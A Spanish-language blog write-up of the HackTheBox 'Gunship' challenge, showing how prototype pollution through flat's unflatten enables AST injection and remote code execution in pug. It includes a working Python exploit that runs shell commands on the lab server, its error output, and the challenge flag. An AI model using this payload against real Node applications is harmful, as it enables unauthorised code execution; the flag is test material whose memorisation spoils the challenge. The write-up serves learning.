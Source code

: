 ```yaml
---
title: Gunship
date: 2022-03-11
categories: [Pentesting, HackTheBox]
excerpt: Realizando el CTF Gunship, aprendiendo nuevas cosas!
tags: [Python, Programación, Pentestin]
---
```


# Gunship
---

### Descripción
A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world... all the wooing in the world to make you feel more lonely... this ride ends here, with a tribute page of the British synthwave band called Gunship. 🎶

**Vulnerabilidad:** vulnerable a la contaminación de prototipos, método: AST Injection.

---- 

¡Hola a todos!, este es un reto que he realizado hace un tiempo de HTB, y aprovechando que fue retirado para subirlo y así ustedes aprendan algo nuevo con este tipo de retos, sin más que decir ¡Comencemos!

```js
const path              = require('path');
const express           = require('express');
const pug                = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the full name of an existing member.'
        });
    }
});

module.exports = router;
```

Revisando el código fuente que HTB nos deja ver lo primero que hice fue buscar lo que no entendía en el código y sabiendo que había hecho en ese entonces una rest API entendí más sobre como estaba construida este tipo de APIS con node, express, etc… Y me pareció raro ver pug y unflatten, y que `unflatten` era lo más usado en el código, así que me puse a buscar que su uso, el cual era: lo que hace `flatten` es devolver un objeto anidado con un nivel de profundidad, algo como esto, y `unflatten` hace que el método anterior sea reversible.
```js
var flatten = require('flat')

flatten({
    key1: {
        keyA: 'valueI'
    },
    key2: {
        keyB: 'valueII'
    },
    key3: { a: { b: { c: 2 } } }
})

// {
//   'key1.keyA': 'valueI',
//   'key2.keyB': 'valueII',
//   'key3.a.b.c': 2
// }
```

```js
var unflatten = require('flat').unflatten

unflatten({
    'three.levels.deep': 42,
    'three.levels': {
        nested: true
    }
})

// {
//     three: {
//         levels: {
//             deep: 42,
//             nested: true
//         }
//     }
// }
```

Y sabiendo como esta compuesta la app nos damos una idea que este objeto es enviado al servidor así que me propuse a buscar si habia alguna forma de explotar esto así que lo primero que se me vino a la mente ver si unflatten en el pasado ha tenido alguna vulnerabilidad, y con un poco de Google encontramos un articulo de contaminación de prototipos donde estaba unflatten y pug. `(^^)`

**Articulo:** https://blog.p6.is/AST-Injection/

Leyendo un poco y analizando el código fuente de la app nos damos cuenta de que los exploit de unflatten se explotan mediante Handlbars.compile y en ninguna parte se usa el método pug, para los que están perdidos como yo lo estuve en este punto handlbars pre compila la plantilla que hay y la manda al cliente ejecutándose inmediatamente en el proceso convirtiendo la cadena en una función de la plantilla, en p6 explica mejor esto aparte de como explotarlo en nuestro caso lo que nos interesa es pug.compile que es lo mismo que handlbars.compile solamente que pug.compile esta enfocado para node.js

Ya sabiendo estos pequeños detalles pasemos a la acción con el exploit, recuerda que debemos cambiar el exploit de pug.compile de la web de p6 con la URL target o sea de ginshup, y atacando el punto principal, `/api/submit` teniendo en cuenta que nuestra en la carpeta de nuestra app sabemos la ruta de static gracias al código fuente `static/out` verificamos si nos deja aprovechar de alguna forma el RCE (Remote Code Execution Vulnerability) con por ejemplo `$(ls)`, para más detalle de lo que es RCE es una forma de ejecutar o inyectar comandos del sistema operativo donde se esté ejecutando la app, pero ¿Por qué `$(ls)`?, recuerda que no solamente existe este comando pues hay otras formas más dolorosas como `sleep` que nos permiten que el proceso se duerma en un unos segundos que le especifiquemos, pero volviendo a la pregunta, es más interesante de explicar por el tema de que se usa a lo que se llama `command substituion` que crea una subshell sin afectar la verdadera haciendo que nuestro comando sea sustituido por la salida estándar, ¿Curioso no?. Después de todo este pug va a compilar la plantilla verificando también que pasamos artist.name para que nos valide

**Exploit:**

```python
import requests

TARGET_URL = 'http://157.245.43.98:32676/'

# make pollution
response = requests.post(TARGET_URL + 'api/submit', json = {
    "artist.name": "Gingell",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`$(ls)`)"
    }
})
print(response.text)
```

**Archivo:**

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: Command failed: $(ls)<br>/bin/sh: flagJhQbu: not found<br> on line 1<br> &nbsp; &nbsp;at checkExecSyncError (child_process.js:621:11)<br> &nbsp; &nbsp;at Object.execSync (child_process.js:657:15)<br> &nbsp; &nbsp;at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), &lt;anonymous&gt;:13:63)<br> &nbsp; &nbsp;at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), &lt;anonymous&gt;:17:7)<br> &nbsp; &nbsp;at /app/routes/index.js:16:81<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/app/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /app/node_modules/express/lib/router/index.js:281:22</pre>
</body>
</html>
```

Luego de tener el nombre del archivo de la flag `flagJhQbu` solamente usamos cat para ver el archivo por dentro y nos mostraria la `flag` completa.

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: Command failed: $(cat flagJhQbu)<br>/bin/sh: HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}: not found<br> on line 1<br> &nbsp; &nbsp;at checkExecSyncError (child_process.js:621:11)<br> &nbsp; &nbsp;at Object.execSync (child_process.js:657:15)<br> &nbsp; &nbsp;at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), &lt;anonymous&gt;:13:63)<br> &nbsp; &nbsp;at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), &lt;anonymous&gt;:17:7)<br> &nbsp; &nbsp;at /app/routes/index.js:16:81<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/app/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /app/node_modules/express/lib/router/index.js:281:22</pre>
</body>
</html>
```

**Flag:** `HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}`

<center>Gracias por leer <3</center>